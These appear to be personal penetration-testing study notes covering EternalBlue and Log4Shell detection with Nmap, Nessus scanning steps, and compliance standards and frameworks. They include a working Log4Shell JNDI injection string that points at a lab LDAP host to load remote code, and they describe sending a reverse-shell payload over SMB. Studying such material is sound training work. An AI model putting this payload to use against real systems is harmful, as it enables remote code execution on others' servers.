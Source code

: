 1. **EternalBlue** - Bug in SMBv1 (RCE happens by sending specially crafted packets (buffer overflow) to SMBv1). RCE happens through a buffer overflow. - **RCE preceded by buffer overflow (Layer 4 vuln)**
    1. Nmap Scripts:
        1. `—script=smb-vuln-ms17-010`
    2. Exploit-db:
        1. Searching eternalblue in the search bar
2. How does it work?
    1. We send SMB packets to the Server with a payload (contains reverse shell), and buffer overflow allows us to execute RCE.

1. **Log4j** - Vulnerability in Apache log4j logging library, allows **RCE** because of JNDI lookup
    1. Nmap Scripts:
        1. `—script=log4shell` (must be installed from GitHub)
    2. ${jndi:ldap://demo.ine:1389/mycode}
        1. JNDI (Java Naming and Directory Interface) provokes LDAP (Lightweight Directory Application Protocol) to search for mycode

### ****Nessus* (Vulnerability Scanner)

My Scans → New Scan → Choosing a Template (Mostly, Web Application Tests Scan) → Launch

Nessus has variety of scan templates that gives us vulnerabilities, service detection, etc.

Generating a report:

- Report (in vulnerabilities page) → Selecting a report template  → Generate a Report → Save File

# Auditing Fundamentals (Assess. Meth or Network & Host Auditing)

### Compliance

In cybersecurity, **compliance** refers to the adherence to laws, regulations, guidelines, and specifications relevant to the organization's operations.

- PCI DSS - Payment Card Industry Data Security Standard
- HIPAA - Health Insurance Portability and Accountability Act of 1996
- GDPR - General Data Protection Regulation (EU)
- CPPA - California Consumer Privacy Act
- SOX - Sarbaney-Oxley Act of 2002

### Frameworks

Models that are used for guiding an organization in improving their security posture.

- ISO/IEC 27000 - ISO/International Electrotechnical Comission
    - Covering more than just privacy, confidentiality and IT/technical/cybersecurity issues
    - Applicable to organizations of all shapes and size
    
    ISO 27001
    
    ~ Information technology — Security Techniques — Information security management systems — Requirements
    